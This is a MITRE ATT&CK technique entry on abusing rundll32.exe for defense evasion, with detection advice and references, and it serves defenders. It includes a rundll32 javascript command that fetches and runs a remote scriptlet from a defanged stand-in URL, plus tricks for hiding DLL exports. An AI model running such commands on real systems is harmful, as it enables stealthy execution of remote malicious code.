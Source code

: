 ```yaml
---
contributors:
- Gareth Phillips, Seek Ltd.
- Casey Smith
- Ricardo Dias
- James_inthe_box, Me
data_sources:
- 'Process: Process Creation'
- 'Command: Command Execution'
- 'File: File Metadata'
- 'Module: Module Load'
id: attack-pattern--045d0922-2310-4e60-b5e4-3302302cb3c5
mitre_attack_url: https://attack.mitre.org/techniques/T1218/011
name: Rundll32
platforms:
- Windows
tactics:
- defense-evasion
title: defense-evasion - Rundll32
---
```


## Technical Details

| Attribute | Details |
|-----------|----------|
| **Tactics** | defense-evasion |
| **Platforms** | Windows |
| **Data Sources** | Process: Process Creation, Command: Command Execution, File: File Metadata, Module: Module Load |
| **MITRE ATT&CK URL** | [https://attack.mitre.org/techniques/T1218/011](https://attack.mitre.org/techniques/T1218/011) |

# Rundll32 (attack-pattern--045d0922-2310-4e60-b5e4-3302302cb3c5)

## Description
Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute.(Citation: Trend Micro CPL) For example, [ClickOnce](https://attack.mitre.org/techniques/T1127/002) can be proxied through Rundll32.exe.

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) 

## Detection
Use process monitoring to monitor the execution and arguments of rundll32.exe. Compare recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity.

Command arguments used with the rundll32.exe invocation may also be useful in determining the origin and purpose of the DLL being loaded. Analyzing DLL exports and comparing to runtime arguments may be useful in uncovering obfuscated function calls.

## External References
- [mitre-attack](https://attack.mitre.org/techniques/T1218/011)
- [rundll32.exe defense evasion](https://www.cynet.com/attack-techniques-hands-on/defense-evasion-techniques/)
- [Attackify Rundll32.exe Obscurity](https://www.attackify.com/blog/rundll32_execution_order/)
- [This is Security Command Line Confusion](https://www.stormshield.com/news/poweliks-command-line-confusion/)
- [Github NoRunDll](https://github.com/gtworek/PSBits/tree/master/NoRunDll)
- [Trend Micro CPL](https://www.trendmicro.de/cloud-content/us/pdfs/security-intelligence/white-papers/wp-cpl-malware.pdf)
